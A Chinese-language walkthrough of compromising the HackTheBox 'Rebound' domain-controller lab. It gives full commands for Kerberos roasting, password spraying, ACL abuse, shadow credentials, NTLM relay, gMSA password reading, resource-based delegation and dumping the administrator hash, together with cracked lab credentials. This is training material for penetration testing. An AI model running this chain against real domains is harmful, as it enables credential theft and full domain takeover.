# HTB 靶机渗透总结之 Rebound-先知社区

> **来源**: https://xz.aliyun.com/news/18704  
> **文章ID**: 18704

---

# 一、前言

Rebound，以域控环境为基础的疯狂难度靶机。关键是在逐步完成基础信息的枚举时，还要将密码喷洒拷票攻击、影子凭据技术、还有更高级别的委派攻击RBCD等技术结合到一起。甚至在靶机的部署中还开启了 LDAP 签名要求和通道绑定等加固手段，加大了脚本和自动化攻击的使用门槛。其中所涉及的技术是红队攻击的典型手段，是必须掌握的关键技能。

|  |  |
| --- | --- |
| 名称 | 说明 |
| 靶机链接 | [Rebound (Insane) | Hack The Box](https://www.hackthebox.com/machines/rebound) |
| 作者 | [Geiseric](https://app.hackthebox.com/profile/184611) |
| 靶机发布日期 | 09/09/2023 |
| 难度 | INSANE（疯狂） |
| 攻击机（kali） | ip：0.0.0.0 |
| 靶机（CentOS） | ip：10.129.129.114 |



# 二、信息收集及AI攻击面分析

## 2.1、主机发现、端口扫描、服务枚举、脚本漏扫

```
nmap 10.129.129.114 -sT -p- --min-rate 1000 -oA nmap_result/port_scan
nmap 10.129.129.114 -sU --top-ports 10 -oA nmap_resule/portudp_scan
nmap 10.129.129.114 -p $port -sT -sV -O -sC -oA nmap_result/server_info
nmap 10.129.129.114 -p $port --script=vuln -oA nmap_result/vuln_info

port=$(grep open nmap_result/port_scan.nmap|grep open|awk -F '/' '{print $1}'|paste -sd ',') 
```

tcp开放端口扫描结果如下



udp端口扫描结果如下



脚本漏扫结果如下



> 端口探测结果：  
>  tcp/53（DNS 服务）  
>  tcp/88（Windows Kerberos 服务）  
>  tcp/139 （对应基于NetBIOS的SMB服务）  
>  tcp/224 （对应直接TCP的SMB服务 microsoft-ds即Microsoft Directory Services）  
>  tcp/389 (LDAP 轻量目录访问协议的端口）对应的它的 TLS 端口为 636  
>  tcp/3268、tcp/3269（LDAP 的全局旁路端口）  
>  tcp/5985 （WinRM）  
>  udp/123（ NTP 网络时间协议）  
>  udp/137，udp/138 是开发或过滤的状态，推测服务器是有一定的防御基础设施

> 漏扫探测结果：  
> SMB 是漏洞脚本重点看的，但是也并没有发现任何有价值的信息。

这种端口组合是典型的域控呈现出的状态，正常的一台预控开放的服务，也没有更详细的信息。也就是说这些特征表明目标机器是一台 Windows 域控制器，也能看到里边暴露出的域名 rebound.htb，还有 DC 域控制器 DC01.rebound.htb

​

## 2.2、前置准备 - 添加域名解析

把 nmap 扫描结果得到的几个域名，解析到 hosts 文件中，便于后续使用。

```
sudo sed -i '1i 10.129.129.114 dc01.rebound.htb rebound.htb'/etc/hosts
```



## 2.3、前置准备 - 时间同步

```
sudo ntpdate 10.129.129.114
sudo net time set -S 10.129.129.114
```

`ntpdate` 走的是 UDP 123 端口（NTP 协议）  
`net time set` 走的是 TCP 139/445 端口 （SMB/CIFS 协议）



从运维视角来说， SMB 的访问修改时间也会留下系统日志，而 NTP date 不会留下日志，或者说很少有管理员会关注到这个端口的异常流量。从隐蔽性角度，用 NTP date 会更好。

在红队视角中，时间偏差问题常常成为预渗透或横向移动的隐形障碍，尤其是我们利用 Kerberos 票据或者是 NTLM 的身份验证这些依赖时间戳的协议的时候。一旦目标机器和我们的攻击环境现在就是 Kali 时钟不同步的时候，就会导致凭据验证失败或者引发异常日志。因为 Windows 默认对于 Kerberos 这种认证请求有一个很微小的时间偏差，容忍范围通常在 5 分钟左右，如果超出这个范围，那域控制器会直接拒绝票据，这样首先会导致我们的攻击命令执行不成功。

​

## 2.4、AI 攻击面分析

将 nmap 端口探测结果交给 AI 做攻击面分析，关键的结果如下图所示。







从已有信息来看，提供的攻击链价值度不高。 nmap 详细信息扫描的结果并没有暴露任何 Web 服务，所以从信息收集角度，我们没法获得一些用户名之类的内容，那最应该先看的就是 SMB。

​

## 2.5、SMB 枚举、RID 枚举

### 1） SMB 查看共享

首要方向是看是否支持匿名访问，看是否有共享，共享是否可做枚举。

```
sudo nxc smb rebound.htb --shares
sudo nxc smb rebound.htb -u guest -p '' --shares
sudo nxc smb rebound.htb -u notes -p '' --shares
```



> 结果发现：
>
> 1）目标做了很精细的设置，不支持纯匿名访问，但可传入随意用户名来访问。  
> 2）可读权限的有两个，IPC$ 和 Shared

（如果你用 Windows 的共享有一些经验，应该知道，不存在的用户也可以映射成 guest 的权限，但如果不指定任何用户纯匿名用户，它是不允许访问的，会有类似第一条命令的两条报错）

​

### 2）尝试可读文件夹进行枚举。

```
sudo impacket-smbclient rebound.htb/wsec@10.129.129.114 -no-pass
```



> 结果发现文件夹 Shared 无数据

### 3） 尝试 RID 枚举

默认只枚举到 RID 序号 为 4000 以内，这里手工调整为更大的值 40000。

```
sudo impacket-lookupsid wsec@rebound.htb -no-pass
sudo impacket-lookupsid wsec@rebound.htb -no-pass 40000
```



最终脚本枚举到 RID 序号为 7687 后结束运行。获取到了一些用户组名称（均为常见的价值度不高）、域内计算机 , 以及一批直接显示的用户名，将用户名作为字典存储为文件 users

```
Administrator
Guest
krbtgt
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
winrm_svc
batch_runner
tbrady
```

# 三、auth as ldap\_monitor（一次失败的尝试）

## 3.1、AS-REP Roasting

当拿到系统中的用户名的时候，就要看有没有一些用户被设置成不需要预身份验证的属性，如果用户的属性被设置成不需要进行预身份认证，那就可以直接向预控 KDC 请求这个账号的加密凭据。 KDC 会返回使用密码的哈希加密票据，然后我们尝试着去破解（这里的破解就是 roasting 这个过程），整个攻击链就是 AS-REP Roasting 的过程，非常经典的域渗透攻击方式，每次都值得尝试。

```
sudo impacket-GetNPUsers -usersfile users -request -format hashcat -dc-ip 10.129.129.114  rebound.htb/
```

`-format` 指定请求返回的格式， hashcat 或者 join 都可以  
`-dc-ip` 不指定一般也是可以确定的，因为我们之前做了 host 做了 ip 和 域名的映射。  
`rebound.htb/` 后边要写斜杠用户名，但是用户名我们通过 user file 给到了，所以满足格式就可以了



```
# 顺便一提，NetExec 工具对 ldap 协议的枚举存在 asreproast 模块可用
sudo nxc ldap rebound.htb -u users -p '' --asreproast asrep_users
```



> 结果分析：对用户名文件 users 中的用户逐一尝试的结果中可以看到，多数用户都没有设置不需要预验证，所以没有返回有价值的信息。但这里 jjones 返回了 KRB5 ASREP 格式的哈希，那这个就可以拿去破解了，破解的过程就是 roasting 的过程。

## 3.2、Roasting（hashcat 工具）

1） 尝试破解。  
尝试破解获取到的 AS-REP 哈希，字典用 rockyou.txt。

```
hashcat --help | grep -i asrep
sudo hashcat -m 18200 '$krb5asrep$23$jjones@REBOUND.HTB:......' /usr/share/wordlists/rockyou.txt 
```



> 结果提示破解失败，那我们要进一步的扩大字典，但一般来说 rockyou 如果默认破解不成功的话，那你首先应该想到用规则去扩展这个字典，比你换一个大字典往往效果要好。

2） 尝试做规则优化。

```
sudo hashcat -m 18200 '$krb5asrep$23$jjones@REBOUND.HTB:......' /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --potfile-disable -O -w 3
```

`-r` 选择 hashcat 目录下里边的规则，然后选你熟悉的，或者是你看到别人常用的都可以，因为现在这个破解没有其他信息能是够让我做辅助判断的，我用 InsidePro-PasswordsPro.rule 这个规则  
`--potfile-disable` ，禁用 pot 文件（port 文件是破解的日志文件），我禁用它之后，那之前的破解记录都会忽略掉，那现在会展示一个完整的破解过程  
破解过程提示我要11个小时，同时也提示了我一些优化建议，我加入了 `-O -w 3`

​



> 测试结果：经过漫长的等待， Hackchat 耗尽 rockyou 字典和用规则扩展的字典，并没有破解出明文密码。尝试于在线平台破解哈希也未能成功。

# （思路梳理及相关文章的翻阅）

1）通过 RID 枚举我获取到了一个不需要预身份验证的属性的用户 jjones  
2）通过向预控 KDC 请求这个账号的加密凭据，成功返回了使用密码的哈希加密票据，但哈希破解未成功。  
3）AS-REP Roasting 这种方式不成功。我可以选择更大的字典来破解，考虑到时间成本，权衡之下暂时放弃破解，看是否有新的攻击路径。  
4）当前条件下还有另一种 Roasting 的方式可以尝试，就是 Kerberos Roasting。  
5）但是 Kerberos Roasting 一般需要一个域用户的凭据才能尝试，那当前没有用户凭据按传统的方式执行 Kerberos roasting 是没法操作的。但现在我们有一个不需要预验证的用户 jjones，虽然不能破解他的哈希，但是却符合了一种新型的 Kerberos 攻击的方式。  
这种新型的攻击方式在这篇文章有所提及： [New Attack Paths? AS Requested Service Tickets - Semperis](https://www.semperis.com/blog/new-attack-paths-as-requested-sts/)



6）实际通过这种方法，我们不仅可以使用已知账号发起请求，还可以结合用户枚举生成的用户名列表逐一尝试，对于那些不需要预认证的账号尤为有效。这个就切合了我们当前的环境。

# 四、auth as ldap\_monitor（成功）

## 4.1、Kerberos Roasting

有了文章的测试作为理论依据，则着手开始进行新型的 Kerberos Roasting 测试。

```
sudo impacket-GetUserSPNS -no-preauth jjones -usersfile users -dc-host dc01.rebound.htb  rebound.htb/
```



> 结果可以看到返回了两组TGS哈希。  
> 1）用户 krbgt，TGS哈希加密类型为 18，对应加密算法名称为 AES128-HMAC-SHA1  
> 2）用户 ldap\_monitor ，TGS哈希加密类型为 23，对应算法名称为 RC4-HMAC

## 4.2、Kerberos Roasting 结果梳理和分析

1）从运维角度看，按命名的表意来分析，用户 ldap\_monitor 是 LDAP 监视器监控这样一个角色。用户 KRB TGT 是与 TGT 分发和管理相关的系统维护类角色，系统管理类账号通常是强类型的复杂密码，那就没有破解的可能。

2）从红队角度看，加密算法 RC4-HMAC 的爆破效率是高于 AES 系列算法的。ldap\_monitor 的 TGS哈希的破解应该为更高优先级。

在当前的软硬件环境下，为了使得破解效率更高，可询问 AI 进行辅助，对比破解难度，AI 回答结果如下：



## 4.3、Roasting（hashcat 工具）

尝试破解用户 ldap\_monitor 的 TGS 哈希，字典用 rockyou.txt。

```
hashcat --help | grep -i kerb

sudo hashcat -m 13100 '$krb5asrep$23$ldap_monitor$REBOUND.HTB$ldap_monitor*$d512ba......' /usr/share/wordlists/rockyou.txt --potfile-disable -O -w 3
```



结果获取到了用户 ldap\_monitor 的明文密码

```
rebound.htb\ldap_monitor:1GR8t@$$4u03
```

## 4.4、用户 ldap\_monitor 相关服务的验证

基于目标已开放的端口，测试 SMB、WinRM、LDAP

```
sudo ntpdate 10.129.129.114
sudo nxc smb rebound.htb -u ldap_monitor -p '1GR8t@$$4u'
sudo nxc winrm rebound.htb -u ldap_monitor -p '1GR8t@$$4u'
sudo nxc ldap rebound.htb -u ldap_monitor -p '1GR8t@$$4u'
sudo nxc ldap rebound.htb -u ldap_monitor -p '1GR8t@$$4u' -k
sudo impacket-smbexec rebound.htb/ldap_monitor:'1GR8t@$$4u'@rebound.htb -dc-ip rebound.htb
```



> 结果显示：
>
> 1）SMB 成功，可以做 SMB 的认证  
> 2）WinRM 失败，可能是用户 ldap\_monitor 的权限有限制  
> 3）LDAP 成功 ,但得加参数 -k，可能目标 LDAP 仅支持 Kerberos 认证，而不接受简单的凭据认证  
> 4）smbexec 失败，RPC 访问拒绝

细节：1）ldap认证时，脚本提示 LDAPS channel 的绑定可能被激活了，让我尝试加入参数 -k，表示这样仅支持 Kerberos 认证。2）在做任何基于 Kerberos 认证的交互的时候，要先做时间同步，以免留下日志或告警。

# （思路梳理）

一个运维在使用这个 ldap\_monitor 这个服务类账号或者是功能类账号，monitor 是监控哪一个人使用，那个人会不会复用它的密码？他个人账号是否也会使用相同的密码。

这里的思路就是这样的，当你通过 Kerberos 获得了一个凭据之后，根据他的用户名特征或者是单纯的撞库都有必要做这种尝试，ldap\_monitor 看样子像一个服务账号或者是功能性的账号，应该更可能是一个功能性账号，这样实际使用这个账号的人很可能会复用这个密码，有必要尝试喷洒。

# 五、auth as oorend

## 5.1、密码喷洒攻击

用已知的密码针对 SMB 服务对用户名字典 users 进行碰撞

```
sudo nxc smb rebound.htb -u users -p '1GR8t@$$4u' -d rebound.htb --continue-on-success
```



结果撞库成功，获取到了一组新的用户凭据，这样我们现在就有了两个用户的凭据，接下来的思路是再看 oorend 这个账号具备什么样的访问能力。

```
rebound.htb\ldap_monitor:1GR8t@$$4u
rebound.htb\oorend:1GR8t@$$4u
```

## 5.2、用户 oorend 相关服务的验证

```
sudo ntpdate 10.129.129.114
sudo nxc smb rebound.htb -u oorend -p '1GR8t@$$4u'
sudo nxc winrm rebound.htb -u oorend -p '1GR8t@$$4u'
sudo nxc ldap rebound.htb -u oorend -p '1GR8t@$$4u'
sudo nxc ldap rebound.htb -u oorend -p '1GR8t@$$4u' -k
sudo impacket-smbexec rebound.htb/oorend:'1GR8t@$$4u'@rebound.htb -dc-ip rebound.htb
```



结果与 ldap\_monitor 一致，那这样我们只能通过 LDAP 进一步枚举，看能获得其他什么信息，朝着立足点和系统权限一点一点推进，尝试枚举。

# 六、shell as winrm\_svc

## 6.1、LDAP 手工枚举 (powerview.py)

### 1）枚举用户属性、用户权限

其实思路很简单，就是当你获得了一个用户，那就着用户的名称看这个用户的属性，然后根据它的安全标识符 SID 去看它的权限

```
powerview rebound.htb/oorend:'1GR8t@$$4u'@10.129.129.114 -k

PV > Get-DomainUser -identity oorend
PV > Get-DomainObjectAcl -SecurityIdentifier S-1-5-21-4078382237-1492182817-2568127209-7682

PV > Get-DomainUser -identity ldap_monitor
PV > Get-DomainObjectAcl -SecurityIdentifier S-1-5-21-4078382237-1492182817-2568127209-7681
```





> 结果显示：
>
> 1） ldap\_monitor 对象无任何权限  
> 2） oorend 活动目录权限显示 Self，这个权限的目标是 ServiceMgnt，权限类型是允许访问， ACE 是访问控制项。 这样 oorend 这个对象就能够对 ServiceMgnt 拥有 Self 权限，这种权限允许 oorend 用户修改与自身相关的属性，比如把 oorend 加入到 ServiceMgnt 组。

### 2）查询当前域还有哪些权限的组织单元

```
PV > Get-DomainOU
```



> 结果显示OU有两个

### 3）查询两个组织单元的访问控制项

重点是关注安全标识符(SecurityIdentifier)这里能否和我们获得的两个用户产生什么关联

```
PV > Get-DomainObjectAcl -Identity "OU=Domain Controllers,DC=rebound,DC=htb"
PV > Get-DomainObjectAcl -Identity "OU=Service Users,DC=rebound,DC=htb"
```

​

"OU=Domain Controllers" 结果如下，众多结果中并没有发现哪些组可以和获得的两个用户产生关联



“OU=Service Users”，结果如下。只能得知 ServiceMgnt 组属于 OU=Service Users

之前的发现是 oorend 的那个用户能够把自身加到 ServiceMgnt 组，而它是属于 OU=Service Users。



### 4）再看 OU=Service Users 的所有域对象信息

```
PV > Get-DomainObject -SearchBase "OU=Service Users,DC=rebound,DC=htb"
```



> 结果发现 OU=Service Users 下有 winrm\_svc 这个对象，看命名正常的话应该能通过端口5985进行登录

### 5）看看账号 winrm\_svc 属于什么组

```
PV > Get-DomainGroup -MemberIdentity "winrm_svc"
```



> 结果表明用户 winrm\_svc 包含于 OU=Service Users

至此，已经可以构建出一条非常值得尝试的链路。总结手工枚举的有价值信息，通过刚才的枚举，这样一条攻击链很值得尝试。用户 oorend 对组 ServiceMgnt 有增加自身进组的 self 权限，而 ServiceMgnt 组能够完全控制 OU=Service Users，而这个 OU 包含 winrm\_svc 域用户，那给他权限就很可能获得 5985 的登录能力。

​

## 6.2、自动化枚举（BloodHound）

使用 bloodhound-python 做自动化数据枚举，可进一步验证手工枚举的路径，更为重要的是看是否还能发现新的攻击链。

```
sudo ntpdate 10.129.129.114

bloodhound-python -d rebound.htb -u ldap_monitor -p '1GR8t@$$4u' -dc dc01.rebound.htb -c all -ns 10.129.129.114 --zip
```

`-ns` 执行过程会报错提示DNS操作超时，需指定NameServer



> 结果枚举发现了16 个用户， 53 个组策略相关的内容，存储为 zip 文件，后边再做分析。

## 6.3、自动化枚举（NetExec）

bloodhound-python 执行过程出现 WARNING 提示，询问 AI 后发现是 （LDAP Channel Binding） 安全策略导致，联想到起初做相关服务的验证时也出现过该提示，实际还可尝试使用 NetExec 做自动化枚举。  
NetExec 的 bloodhound 模块完成自动枚举

```
sudo nxc ldap rebound.htb -u ldap_monitor -p '1GR8t@$$4u' -k --bloodhound -c all --dns-server 10.129.129.114
```



> 结果：收集的数据已自动打包为 zip

## 6.4、BloodHound 数据分析

把 OOREND@REBOUND.HTB 设置为起点





结果分析：

1）用户 `OOREND@REBOUND.HTB` 可通过 AddSelf 把自己增加到 组 `SERVICEMGMT@REBOUND.HTB` 里  
2）组 `SERVICEMGMT@REBOUND.HTB` 有完全的控制权限能够操作 OU= `SERVICEUSERS@REBOUND.HTB`   
3）OU= `SERVICEUSERS@REBOUND.HTB` 包含了 用户 `WINRM_SVC@REBOUND.HTB`   
4）用户 `WINRM_SVC@REBOUND.HTB` 对主机 `DC01.REBOUND.HTB` 具备 CanPSRemoute 的能力  
5）从主机 `DC01.REBOUND.HTB` 角度分析，它能对域 `REBOUND.HTB` 做 DC 同步，当然里边的用户我们也都能拿到。那这条路径和 Powerview 中手动分析的完全是一样的。

## 6.5、相关权限的获取

1）把 oorend 成员加入组 ServiceMgnt

```
powerview rebound.htb/oorend:'1GR8t@$$4u'@10.129.129.114 -k
PV > Get-DomainGroupMember -identity ServiceMgnt -Member oorend

# 或使用 bloodyAD 工具
sudo bloodyAD --host 10.129.129.114 -u oorend -p '1GR8t@$$4u' add groupMember ServiceMgnt oorend
```



过程中可对比查看组成员的变化，结果可以看到组成员新增成功

```
PV > Get-DomainGroupMember -identity ServiceMgnt
```



2）给 oreand 赋予对整个 OU 的全部权限  
工具：[GitHub - BloodyAD](https://github.com/CravateRouge/bloodyAD)

```
sudo bloodyAD --host 10.129.129.114 -u oorend -p '1GR8t@$$4u' add genericAll "OU=Service Users,DC=rebound,DC=htb"
```



过程中可对比查询赋予的权限是否生效。结果可以看到 oreand 对自己有 Self 权限，相对于 ServiceMgnt 组，可完全控制 Service Users，则有了对 winrm\_svc 的操作权限。

```
powerview rebound.htb/oorend:'1GR8t@$$4u'@10.129.129.114 -k
PV > Get-DomainUser -identity oorend
PV > Get-DomainObjectAcl -SecurityIdentifier S-1-5-21-4078382237-1492182817-2568127209-7682
```



## 6.6、立足点获取方式1

现在已经有了对 winrm\_svc 的操作权限，可修改 winrm\_svc 的密码，完成 winrm 登录操作

```
sudo bloodyAD --host 10.129.129.114 -u oorend -p '1GR8t@$$4u' set password winrm_svc ws3c123!

sudo evil-winrm -i rebound.htb -u winrm_svc -p 'ws3c123!'
```



## 6.7、立足点获取方式2

相比直接修改 winrm\_svc 账号的密码，使用影子凭据技术（ shadow credential）就是是一种更隐蔽更柔和的替代手段，也可以看作是一项持久化的攻击方法。  
1）使用的前提是必须能够对目标账号的这个字段属性进行写操作，往往是通过滥用错误配置的访问控制列表（就是ACL），或者是使用域管理员的特权账号直接修改权限来达成在前面的攻击过程。  
2）我们修改过 genericall 的权限，也有过加组操作，显然这是满足前提条件的。  
3）综合分析，这种技术在现在当前场景下可以尝试，是隐蔽性更好的方式，可作为修改winrm\_svc 密码的替代方式。  
工具：[GitHub - ly4k/Certipy](https://github.com/ly4k/Certipy/)

```
# 1）前置需完成之前的加组加权限操作
sudo bloodyAD --host 10.129.129.114 -u oorend -p '1GR8t@$$4u' add groupMember ServiceMgnt oorend
sudo bloodyAD --host 10.129.129.114 -u oorend -p '1GR8t@$$4u' add genericAll "OU=Service Users,DC=rebound,DC=htb"

# 2）使用影子凭据技术获取信息
sudo certipy-ad shadow auto -account winrm_svc -u oorend@rebound.htb -p '1GR8t@$$4u' -dc-ip 10.129.129.114 -k -target dc01.rebound.htb

# 3) winrm登录操作
sudo evil-winrm -i rebound.htb -u winrm_svc -H '4469650fd892e9933b4536d2e86e512'
```



> 结果成功返回用户 winrm\_svc 的 NT 哈希，WinRM 登录成功

# 七、auth as tbrady - 信息枚举

## 7.1 系统信息的枚举

### 1）进程信息

```
*Evil-winRM*> ps
```



> 多个进程会话标识为1，表明有活跃用户

### 2）查询活跃用户会话

```
*Evil-winRM*> qwinsta
```



> 结果显示查询用户会话报错了，可能原因推测是会话状态导致

### 3）查询活跃用户会话（RunasCs.exe）

尝试上传工具 RunasCs.exe 来执行（`runascs.exe` 是一个用于以指定用户身份创建交互式会话并执行命令的工具）

```
*Evil-winRM*> upload /home/kail/wsec/HTB/Rebound/RunasCs.exe

*Evil-winRM*> .\RunasCs.exe oorend '1GR8t@$$4u' qwinsta
*Evil-winRM*> .\RunasCs.exe oorend '1GR8t@$$4u' qwinsta -l 3
*Evil-winRM*> .\RunasCs.exe oorend '1GR8t@$$4u' qwinsta -l 9
```



> 测试后发现登录类型为9时可以执行成功，确定了控制台有个活跃状态的账号 tbrady，则下一步则是进一步枚举，看能否找到与该用户有关联的信息。

### 4）上传脚本 Powerview.ps1 枚举域内信息

```
*Evil-winRM*> upload /home/kail/wsec/HTB/Rebound/Powerview.ps1
*Evil-winRM*> . .\Powerview.ps1
```

### 5）列出域用户，简单做过滤

```
*Evil-winRM*> get-domainuser
*Evil-winRM*> get-domainuser -properties samaccountname
*Evil-winRM*> get-domainuser -properties samaccountname,memberof
```





### 6）列出服务账号，加过滤条件

列出域用户时是不会列出服务号的，所以可额外执行列出服务账号

```
*Evil-winRM*> get-adserviceaccount -fillter *
```

`-fillter *` 注意这里哪怕不想过滤也要指定过滤器不然会耗时很长或无结果。



> 发现有个组托管服务（gMSA）账号 delegator$，接下来的枚举看能否找到与该服务号有关联的信息。

### 7）查询 tbrady 的详细信息

```
*Evil-winRM*> get-domainuser -identity tbrady
```



### 8）信息梳理

1）已知密码的两个账号 ldap\_monitor、oorend 无属组  
2）有活跃会话的用户 tbrady 无属组  
3）用户 winrm\_svc 属组的命名为远程管理用户

> 现在最关注是 tbrady，他如果有属组，则可以进一步追溯它的权限，目前组属关系还是不能把 tbrady 和服务号做出关联来，但是不要忘记还有另一个组不会列出来就是 everyone，可直接查访问控制列表来获取。

### 9）查 ACL ，加过滤条件

查访问控制列表，筛选 SID=S-1-1-0 （即 everyone） ，看是否有对象给了 everyone 某种访问权限

```
*Evil-winRM*> get-domainobjectacl | where-object { $_.SecurityIdentifier -eq "S-1-1-0"}
*Evil-winRM*> get-domainobjectacl -ResolveGUIDs| where-object { $_.SecurityIdentifier -eq "S-1-1-0"}
```

结果太多了增加筛选条件，只列出 everyone 和服务账号 delegator 相关的

```
*Evil-winRM*> get-domainobjectacl -ResolveGUIDs| where-object { $_.SecurityIdentifier -eq "S-1-1-0"}
```



> 结果发现存在权限是允许（AccessAllow），读取属性（ReadProperty），目标记录类型是（ns-DS-ManagedPassword）。

实际的应用就是 everyone 包括 tbrady 在内的用户都可以读取 delegator 存储密码的属性，这就是一组可利用的关联关系。bloodhound 结果也进一步印证了手工枚举的这条路径。



## （思路梳理及枚举信息总结）

对系统信息枚举的分析做个总结。通过进程的分析，发现存在活跃会话的用户为 tbrady ，则进一步枚举其权限。通过对用户进行枚举，包括服务账号，在试图找到 tbrady 和服务账号的关系的过程中，对用户所属组进行分析，发现 everyone 组可以读取服务账号 delegator 托管密码字段，而 tbrady 理应属于 everyone 组。这种状态下， tbrady 是否可以被利用？接下来联想到的是中继场景。

​

## 7.2. NTLM 中继

工具 [GitHub - cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay)

```
*Evil-winRM*> upload /home/kail/wsec/HTB/Rebound/KrbRelay.exe
*Evil-winRM*> .\RunasCs.exe oorend '1GR8t@$$4u' -l 9 ".\KrbRelay.exe -ntlm -session 1 -clsid 38e441fb-3d16-422f-8750-b2dacec5cefc"
```

在 `RunasCs.exe` 来执行而不直接在winrm来执行只是为了创建交互式的上下文  
 `-clsid` 需根据官方给的，对应操作系统版本随机选一个，目标为 winServer2019 标准版  
 `-session 1`会话用活跃用户的编号为1

​



> 结果成功捕获到了 3 个 NTML 哈希，尝试破解 tbrady 的哈希

## 7.3、破解哈希

```
sudo hashcat --help | grep -i ntml
sudo hashcat -m 5600 'tbrady::rebound:f433d......'
```



成功破解，拿到明文密码

```
rebound.htb\tbrady:543BOMBOMBUNmanda
```

# 八、auth as delegator$

## 8.1、请求票据，测试认证

```
sudo ntpdate rebound.htb

sudo impacket-getTGT -dc-ip 10.129.129.114 rebound.htb\tbrady:543BOMBOMBUNmanda
export KRB5CCNAME=tbrady.ccache

sudo nxc ldap rebound.htb -d rebound.htb --user-kcache
sudo nxc ldap rebound.htb -d rebound.htb --user-kcache --gmsa
sudo nxc ldap rebound.htb -d rebound.htb -k -u tbrady -p 543BOMBOMBUNmanda --gmsa
```

`export KRB5CCNAME=` 声明环境变量指向票据，一定要大写这样在当前会话才会优先使用该缓存票据  
`--user-kcache` 使用缓存的票据进行认证  
`--gmsa` 读取密码字段内容  
如果不指定 `--user-kcache`，用 -k 加明文密码认证效果也是一样的

​





> 结果 tbrady 可以用票据认证到 rebound.htb，成功获取到组服务账号 delegator 密码字段的内容，为一串哈希。

# （思路梳理）

之前做系统信息枚举时通过 get-adserviceaccount、get-domainobjectacl 结果相关属性确定其为组服务账号，既然拿到了哈希，了解其价值度，那就可以构造一些委派场景，尝试获得更有价值的资源或者目标。  
 目前位于立足点的上下文，更想获取的是提权的系统账号权限，就要基于 delegator 这个 gMSA 组托管服务账号进行委派提权。

​

# 九、shell as Administrator

## 9.1、基于资源的约束委派（impacket-rdcb）

申请自服务票据，然后申请代理票据，以模拟更高级别账号访问域控服务，在此之前先做时间同步。

```
sudo ntpdate rebound.htb
```

流程图参考这篇文章 [Rebound-hackthebox - JKding233 - 博客园](https://www.cnblogs.com/JKding233/p/18424433)



## 9.2、第一阶段，申请自服务票据

使用 S4U2Self 协议请求访问自身的不可转发 ST1。

1）先拿初始的 TGT，即 delegator$ 的 TGT，并配置环境变量

```
sudo impacket-getTGT -dc-ip 10.129.129.114 rebound.htb\delegator\$ -hashes :45326e68995ec3b859228fd504be8617
export KRB5CCNAME=ldap_monitor.ccache
```

​

2）执行 RDCB 环节，委托给用户 ldap\_monitor。

```
sudo impacket-rdcb -no-pass -k rebound.htb/delegator\$ -delegate-to delegator\$ -delegate-from ldap_monitor -dc-ip 10.129.129.114 -user-ldaps -action write
```

​

3）其次拿用户的 TGT，即 ldap\_monitor 的 TGT，配置到环境变量。

```
sudo impacket-getTGT -dc-ip rebound.htb rebound.htb/ldap_monitor:'1GR8t@$$4u'
export KRB5CCNAME=ldap_monitor.ccache
```

​

4）申请自服务自服务票据 ST1，并配置环境变量。

```
sudo impacket-getST -spn browser/dc01.rebound.htb -impersonate dc01\$ rebound.htb/ldap_monitor -k -no-pass
export KRB5CCNAME=dc01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache
```

`-spn` 这里SPN 服务主体名可以随便指定，但一般我们会用系统里边有的，比如说浏览功能的服务 browser。结果可以看到已经获得了 SPN 为 browser 的票据  
`-impersonate` 指定要冒充谁，如果我能冒充机器账号，那我就可以获得最高的权限了，因为我们查询到这台机器叫 dc01，那就冒充 dc01$



## 9.3、第二阶段，申请代理票据

使用 S4U2Proxy 协议请求任意用户访问 Server2 的可转发 ST2，结果可以看到成功获取了DC01机器账号的票据

```
sudo impacket-getST -spn http/dc01.rebound.htb -impersonate dc01\$ -additional-ticket dc01\$@browser_dc01.rebound.htb@REBOUND.HTB.ccache -hashes :45326e68995ec3b859228fd504be8617 -no-pass -k -dc-ip 10.129.129.114 rebound.htb/delegator\$

export KRB5CCNAME=dc01\$@http_dc01.rebound.htb@REBOUND.HTB.ccache
```

`-spn` 这里SPN服务主体名换成了 http 只是为了方便区别，结果成功获得 DC01 机器账号的票据，配置到环境变量  
`-impersonate` 指定要模拟的目标  
`-additional-ticket` 帮助文文档内注释为：在仅用于 RBCD + KCD Kerberos 的 S4U2Proxy 请求中包含可转发的服务票据。所以这里应该指定前面生成的 ST1，作为申请代理票据阶段的身份验证依据。



## 9.4、立足点的获取

完成了基于资源的约束委派攻击，dump 域管哈希，WinRM 登录：

```
sudo impacket-secretsdump dc01.rebound.htb -k -just-dc-user administrator

sudo evil-winrm -i rebound.htb -u administrator -H 176be13854933bb67db3b2572fc91b8
```

`-k` 设置仅支持 Kerberos 认证，工具会优先使用前面导入的 `-spn http/dc01.rebound.htb` 的票据。



# 十、总结



1）首先通过 nmap 获取开放端口信息，结合 AI 做攻击面分析，随后通过 SMB 枚举及 RID 枚举获取到了一批用户名。  
2）随后尝试无预身份验证的 AS-REP Roasting 成功获取到用户 `jjones` KRB5 ASREP 格式的哈希，但破解未成功。在翻阅相关文章后，尝试用一种新型的 Kerberos Roasting 技术成功抓到首个可破解的用户 `ldap_monitor` 的哈希信息，再结合密码喷洒额外获得了另一个常规域用户 `oorend` 密码信息，借此进一步读取 LDAP 对象的访问权限。  
3）接着在使用 Powerview 手工枚举过程中，发现用户 `oorend` 能够添加自身到 ServiceMgnt 组，赋予自己特定 OU 的完全控制权限，进而重置用户的密码或者修改其属性，最终获得用户 `winrm_svc` 的 WinRM 登录权限并拿到 flag。中间也尝试了多种可用方式，包括影子凭据技术、 bloodhound 分析等等。至此只是获得了系统立足点，为了获得域管权限，需要利用更多进阶的技巧进一步做信息的枚举。  
4）首先发现一个活跃会话用户 `tbrady` ，在列出服务号时，识别到名为 `delegator$` 的组托管服务账号，随通过查询访问控制项发现 `everyone` 对其存储密码的字段有读取权限。使用NTLM 中继技术，通过对捕获到的哈希进行破解成功获取到用户`tbrady`的密码信息，进一步获取到到 `delegator$` 的 NT 哈希。  
5）然后尝试构造一些委派场景，借助基于资源的约束委派。把 `ldap_monitor` 加入目标允许取委派列表，然后使用 Kerberos 的双阶段委派技术，成功对域控机器账号实施委派，接着转储域管理员的哈希，通过 WinRM 获得了最高权限的shell，并且拿到了 root flag。

​

这篇博客更多的意义是记录我个人在学习过程中的知识。由于笔者水平有限，本文的写作多借鉴于以下 文章，但也不乏创新思路点。对于靶机渗透过程的技巧，勉强达到靶机要求的合格水平，各位若有其他新颖独特的思路，还望不吝赐教，多多交流。  
